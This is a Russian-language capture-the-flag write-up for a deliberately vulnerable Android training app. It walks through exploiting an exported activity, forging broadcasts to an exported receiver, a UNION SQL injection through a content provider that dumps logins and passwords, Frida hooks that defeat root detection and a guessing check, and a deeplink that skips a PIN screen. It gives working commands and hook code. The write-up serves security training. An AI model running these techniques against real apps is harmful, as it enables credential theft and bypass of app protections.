Общее
----------------
package: ru.offzone.android

Активности:
```
ru.offzone.android.activities.BankMainActivity
ru.offzone.android.activities.DeeplinkHandleActivity
ru.offzone.android.activities.FifthActivity 5
ru.offzone.android.activities.FirstActivity 1
ru.offzone.android.activities.FourthActivity 4
ru.offzone.android.activities.MainActivity 0
ru.offzone.android.activities.ReverseSecurityChecksActivity 4
ru.offzone.android.activities.SecondActivity 2
ru.offzone.android.activities.SecureActivity 1
ru.offzone.android.activities.SecurityChecksActivity 4
ru.offzone.android.activities.SixthActivity
ru.offzone.android.activities.SupportActivity
ru.offzone.android.activities.ThirdActivity 3
```

Ресиверы:
```
ru.offzone.android.receivers.SecureReceiver 2
```

Службы:
```
ru.offzone.android.services.NotificationService
```

Провайдеры:
```
ru.offzone.android.contentproviders.ContactsContentProvider 3
```

Vulnarable Activity
----------------
Активность: ru.offzone.android.activities.FirstActivity - там ничего нет. 
Думал, что флаг именно в этой активности и связан с ней, смотрел скрытые компоненты разметки, в стиле, может есть фрагменты, но нет, код и разметка были пусты. Когда перешел на разбор ресивера и смотрел на менеджер логирования `InternalLogger`, то увидел что есть LOG_CRITICAL сообщение о том, что активность решена:

Это было в `SecureActivity`, вообще не связанной с `FirstActivity`, а вся уязвимость лишь в том, что она экспортируема, так что для флага нужно просто отправить нужный интент с параметром `true`:


Команда вызова активности:
```
am start -n ru.offzone.android/.activities.SecureActivity --ez show_extra true
```
Результат:


Флаг: `SCBCTF{3xp0rt3d_m34ns_pu6l1c}`

Vulnarable Receiver
---------------
Активность: ru.offzone.android.activities.SecondActivity

Что делает сама активность: Выводит список логов из файла `application.log` в `/data/data/ru.offzone.android/files`. Регистрирует анонимный приемник широковещательных сообщений и прослушивает по интент фильтру `ru.offzone.android.UPDATE_LOG`, означающему, что файл логов обновился.

Цепочка логов:
- Есть модуь `InternalLogger`, в котором находится функционал логирования, его экземпляр единственный на все приложение (синглтон), он предоставляет интерфейс для разного уровня логирования:  LOG_INFO,  LOG_WARNING, LOG_ERROR,  LOG_CRITICAL (перечисление `LogVerbosity`). В само логируемое сообщение помещается дата, тип сообщения, описание и, если у объекта лога `LogEntry` поле `special = true`, до еще добавляется нужный нам флаг. Логи обновляются, когда открывается одно из активностей-заданий приложения, либо когда решена последняя или первая активности. При этом, четвертый параметр `special` захардкожен в false, и поэтому флаг никогда выводится не будет. При вызове какого либо вида логов у этого класса, будет отослано сообщение в `SecureReceiver` с ключом интента "LogEntry" и данными - сериализованным объектом `LogEntry`.
- Приемник `SecureReceiver` принимает сообщение, берет данные из сериализованного объекта и пишет их в файл `application.log`, после отправляя широковещательное сообщение с фильтром ru.offzone.android.UPDATE_LOG, который бы принял ресивер из `SecondActivity` и обновил бы логи на экране.

Задача: как кто передать сериализованный LogEntry с последним полем в true. Приемник `SecureReceiver` экспортируемый, так что по идее можно написать атакующее приложение и отправить нужное сообщение (только необходимо разрешение ru.offzone.android.SECURE_COMMUNICATION). 
Второе решение - хукануть и переписать вызов `log()` в `InternalLogger`. Я выбрал этот способ. Ниже хук:
```js
Java.perform(function () {
    var LogEntry = Java.use("ru.offzone.android.domain.LogEntry");
    var SecureReceiver = Java.use("ru.offzone.android.receivers.SecureReceiver");
    var InternalLogger = Java.use("ru.offzone.android.utils.InternalLogger$Companion");

    InternalLogger.log.implementation = function (context, verbosity, content) {
        console.log("Verbosity: " + verbosity);
        console.log("Content: " + content);

        var logEntry = LogEntry.$new(Java.use("java.util.Date").$new(), verbosity, content, true);

        var Intent = Java.use("android.content.Intent");
        var intent = Intent.$new(context, SecureReceiver.class);
        intent.putExtra(SecureReceiver.PARCEL_LOG_KEY.value, logEntry);

        context.sendBroadcast(intent);
    };
});
```
После этого нужно совершить любое действие для создания нового лога, и флаг будет добавлен к логу.

Результат:



Флаг: `SCBCTF{s3cur3_l0gg3er_0ut_th3r3`

Vulnarable Content Provider
-----------------
Активность: ru.offzone.android.activities.ThirdActivity

Флаг для этой активности находится в таблице `users`, это видно при ее создании в `DatabseWrapper`:


Однако в этой активности используется только таблица `contacts`.

Т.к. при запросе к контент-провайдеру метод query передает все аргументы без обработки сразу в `sQLiteDatabase.query`, в том числе и `selection` (хотя в коде это не используется, и все остальные аргументы можно было захардкодить в null), так что можно воспользоваться условием и сделать UNION запрос:
```
adb shell content query --uri content://ru.offzone.android.contactscontentprovider/contacts --where "1=1 UNION SELECT _id, login, password FROM users"
```
это возможно еще и потому, что провайдер экспортируемый.

Результат:


Флаг: `SCBCTF{4w350m3_5q1_1nj3c710n}`

Need to bypass security cheks
-----------------
Активность: ru.offzone.android.activities.FourthActivity

Сначала, исходя из info, надо просто найти креды. Креды эти видны еще на предыдущем шаге, когда анализировался `DatabaseWrapper`, где захардкожены креды для `admin` (то что логин admin, видно из прямой проверки `!Intrinsics.areEqual(login, "admin")`). Нужные креды:
- admin
- r34l_h4ck3r

Далее интент на вызов активности `ReverseSecurityChecksActivity`. В ней кнопка, при нажатии на которую идет множество проверок на окружение системы(в основном рут) со стороннего пакета `com.scottyab.rootbeer`. Способы байпаса:
- патчить условия, легко, просто на противоположные, но надо переупаковывать и переподписывать.
- frida
- через objection заменить возвращаемые значения на false (можно хукать как и roobeer, так и просто метод в классе Security `isAdmin()`)

Заменю методы `rootBeer`.
Всего методов:
```
private boolean com.scottyab.rootbeer.RootBeer.isAnyPackageFromListInstalled(java.util.List<java.lang.String>)
private java.lang.String[] com.scottyab.rootbeer.RootBeer.mountReader()
private java.lang.String[] com.scottyab.rootbeer.RootBeer.propsReader()
public boolean com.scottyab.rootbeer.RootBeer.canLoadNativeLibrary()
public boolean com.scottyab.rootbeer.RootBeer.checkForBinary(java.lang.String)
public boolean com.scottyab.rootbeer.RootBeer.checkForBusyBoxBinary()
public boolean com.scottyab.rootbeer.RootBeer.checkForDangerousProps()
public boolean com.scottyab.rootbeer.RootBeer.checkForMagiskBinary()
public boolean com.scottyab.rootbeer.RootBeer.checkForNativeLibraryReadAccess()
public boolean com.scottyab.rootbeer.RootBeer.checkForRWPaths()
public boolean com.scottyab.rootbeer.RootBeer.checkForRootNative()
public boolean com.scottyab.rootbeer.RootBeer.checkForSuBinary()
public boolean com.scottyab.rootbeer.RootBeer.checkSuExists()
public boolean com.scottyab.rootbeer.RootBeer.detectPotentiallyDangerousApps()
public boolean com.scottyab.rootbeer.RootBeer.detectPotentiallyDangerousApps(java.lang.String[])
public boolean com.scottyab.rootbeer.RootBeer.detectRootCloakingApps()
public boolean com.scottyab.rootbeer.RootBeer.detectRootCloakingApps(java.lang.String[])
public boolean com.scottyab.rootbeer.RootBeer.detectRootManagementApps()
public boolean com.scottyab.rootbeer.RootBeer.detectRootManagementApps(java.lang.String[])
public boolean com.scottyab.rootbeer.RootBeer.detectTestKeys()
public boolean com.scottyab.rootbeer.RootBeer.isRooted()
public boolean com.scottyab.rootbeer.RootBeer.isRootedWithBusyBoxCheck()
public boolean com.scottyab.rootbeer.RootBeer.isRootedWithoutBusyBoxCheck()
public void com.scottyab.rootbeer.RootBeer.setLogging(boolean)
```

используемые методы:
```
isRooted()
checkForMagiskBinary()
detectTestKeys()
checkSuExists()
```

Objection не смог перехватить методы, выдавай ошибку о том что таких классов нет, хотя он загружен в память (такое не в первый раз). Можно попробовать перехватить возвращаемое значение, либо напистаь хук для метода `Security.isBroken()`, вызываемого из `ReverseSecurityChecksActivity` и содержащего в себе все проверки из  `rootBeer`.

Objection опять не сработал, поэтому вот хук для подмены возвращаемого значения:
```js
Java.perform(function() {
    var Security = Java.use("ru.offzone.android.utils.Security");

    Security.isBroken.implementation = function() {
        console.log("[+] Hooking isBroken()");
        return false;
    };
});
```

Далее, когда эти проверки пройдены, создается интент для вызова активности `SecurityChecksActivity`. 
Функционал аналогичен предыдущей активности, только тут все проверки наоборот должны проходить. 
Т.к. хук на предыдущем шаге уже установлен, можно либо повторить действия, используя хук в objection и затем отменить эту задачу, либо повторить хук, заменив возвращаемое значение на противоположное.

Решая патчингом, скорее всего надо инвертировать условия прямо в `ReverseSecurityChecksActivity` и `SecurityChecksActivity` при вызоые `secutity.isBrokern()`:
- 
- 


Результат:



Флаг:`SCBCTF{p47ch1ng_m4st3r`

Need to use a Frida
---------------
Активность: ru.offzone.android.activities.FifthActivity
Надо ввести число, которое сравнивается с рандомно сгенерированным:


Можно напистаь хук, который либо выводит рандомно сгенерированное число, либо просто заменить возвращаемое значение проверяющей функции`isGuessed()`:
```js
Java.perform(function() {
    var FifthActivity = Java.use("ru.offzone.android.activities.FifthActivity");

    FifthActivity.isGuessed.implementation = function() {
        console.log("[+] Hooking isGuessed()");
        return true;
    };
});
```

Флаг: `SCBCTF{p5ych1c_0f_fr1d4`

Vulnerable Deeplink
---------------
Активность: ru.offzone.android.activities.SixthActivity

На старте в активности нужно ввести верный пин-код, чтобы попасть в активность `BankMainActivity`, просто попав в которую, и будет выведен флаг. Сделать этого через эту активность невозможно, т.к. пин-код сравнивается со строкой, при этом доступен ввод только цифр. Возможно конечно и существует способ ввести нужный текст иначе(например через adb), но я до него не догадался. 

Активность банка, кроме шестой активности, вызывается еще и в `DeepLinkActivity`, в котором и находится уязвимость:


Данная активность является экспортируемой, и кроме этого, может вызываться с помощью диплинка с афорити "perfectbankapp" и интентом с действием "android.intent.action.VIEW", которое сразу же открывает эту активность.
Уязвимость в том, что здесь явно не прописан host, поэтому активность будет принимать все ссылки вида `perfectbankapp://some//path`. 

Сама активность ожидает двух видов хоста, которые должны задаваться в виде base64:
- support_chat - будет запущена активность чата поддержки.
- main - будет запущена активность самого банка `BankMainActivity`, где и будет выведен флаг 

Кроме этого, интент, запускающий `DeepLinkActivity` и с помощью которого можно было бы попасть в банк, должен содержать строковый параметр по ключу "auth", который должен быть равен некоему уникальному идентификатору устройства, полученному из различных аппаратных характеристик и не только, получаемый с помощью метода `HardwareId.Companion.getId()` пакета `ru.offzone.android.utils`. Можно восстановить алгоритм его получения и составить его самого, но я решил просто хукануть это значение:
```js
Java.perform(function() {
    var HardwareId = Java.use("ru.offzone.android.utils.HardwareId$Companion");
    HardwareId.getId.implementation = function(context) {
        var result = this.getId(context);
        console.log("[+] Hooking HardwareId: " + result);
        return result;
    };
});
```

Чтобы увидеть верное значение, сначала нужно вызвать эту активность  с любым неверным значением `auth`, чтобы произошел вызов `getId()`. 
Правильное значение hardwareId:


В итоге, конечный диплинк и запрос на запуск активности `DeepLinkActivity` и `BankMainActivity` в последствии выглядит так:
```
am start -a android.intent.action.VIEW -d perfectbankapp://bWFpbg== --es auth F620D0BC2EECFCE44675F8DF128887B4
```

Результат:


Флаг:`SCBCTF{d33pl1nk5_m4d3_345y}`